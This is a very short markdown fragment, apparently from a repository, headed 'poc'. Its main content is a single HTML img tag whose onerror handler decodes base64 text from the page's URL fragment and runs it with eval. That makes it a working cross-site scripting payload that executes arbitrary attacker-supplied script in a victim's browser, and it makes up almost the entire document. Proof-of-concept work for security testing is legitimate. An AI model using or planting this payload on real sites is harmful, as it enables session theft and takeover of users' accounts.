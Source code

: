 # poc

<img src="/fizzbuzz" onerror="eval(atob(decodeURIComponent(location.hash.substring(1))))" />
